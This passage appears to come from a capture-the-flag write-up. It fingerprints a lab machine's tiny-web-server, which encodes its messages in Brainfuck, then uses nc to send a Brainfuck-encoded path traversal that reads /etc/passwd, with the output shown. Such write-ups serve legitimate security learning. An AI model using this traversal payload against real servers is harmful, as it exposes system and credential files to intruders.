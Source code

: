 When connecting to the webserver on port 8080 the following server header is returned
```
------[-->+++<]>.[->+++<]>.---.++++.
```

This string is definitely [Brainfuck](https://en.wikipedia.org/wiki/Brainfuck). Using an [online decoder](https://copy.sh/brainfuck/) we can see the string translates back to `webf`.

When trying to access files in the webroot the webserver crashes and only comes up again after some time (probably by a cron job).

All error messages are also translated to Brainfuck:
```
root@kali:~# nc 192.168.56.101 8080
webf
HTTP/1.1 501 Not Implemented
Content-type: text/html

<html><title>Error</title><body bgcolor=ffffff>
501: Not Implemented
<p>+[------->++<]>.+.+++++.[---->+<]>+++.++[->+++<]>.+++++++++.++++++.-------.----------.: webf
<hr><em>------[-->+++<]>.[->+++<]>.---.++++.</em>
```

By looking at the process list again the binary running seems to be `tiny`:
```
14709  1      run_tiny.sh              0        tyler     /bin/bash /home/tyler/run_tiny.sh
14711  14709  tiny                     0        tyler     /home/tyler/tiny 8080
```

By asking our friend google this seems to be the [tiny-web-server](https://github.com/shenfeng/tiny-web-server). This webserver behaves as pythons `SimpleHTTPServer` and serves the whole directory from where it is run. By looking at the issues page there seems to be an unpatched arbitrary file read vulnerability [https://github.com/shenfeng/tiny-web-server/issues/2](https://github.com/shenfeng/tiny-web-server/issues/2).

Our webserver crashes when requesting files normally so let's try to request `../../../../../../../etc/passwd` encoded in Brainfuck

```
root@kali:~# nc 192.168.56.101 8080
GET ++[------>+<]>+++..+.-..+.-..+.-..+.-..+.-..+.-..+.[--->+<]>.[--->+<]>---.++[->+++<]>+.-[-->+<]>--.+[----->+<]>.[----->++<]>+.--[--->+<]>--..++++.[->+++<]>-. HTTP/1.0

HTTP/1.1 200 OK
Server: ------[-->+++<]>.[->+++<]>.---.++++.
Content-length: 1445
Content-type: text/plain

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:103:systemd Time Synchronization,,,:/run/systemd:/bin/false
```